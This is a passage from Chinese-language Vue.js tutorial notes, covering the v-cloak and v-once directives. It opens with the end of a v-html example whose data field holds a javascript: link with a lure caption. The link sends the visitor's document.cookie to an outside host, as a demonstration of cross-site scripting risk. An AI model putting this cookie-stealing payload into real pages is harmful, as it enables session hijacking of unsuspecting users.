 ```html
			data:{
				name:'111',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

#### 15-3、v-cloak指令

v-cloak指令（没有值）：
			1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
			2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
	</head>
	<body>
		<div id="app">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<!-- 这里可以调整延迟时间为5s -->
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	<script type="text/javascript">
		console.log(1)
		new Vue({
			el:'#app',
			data:{
				name:'111'
			}
		})
	</script>
</html>
```

#### 15-4、v-once指令

v-once指令：
			1.v-once所在节点在初次动态渲染后，就视为静态内容了。
			2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

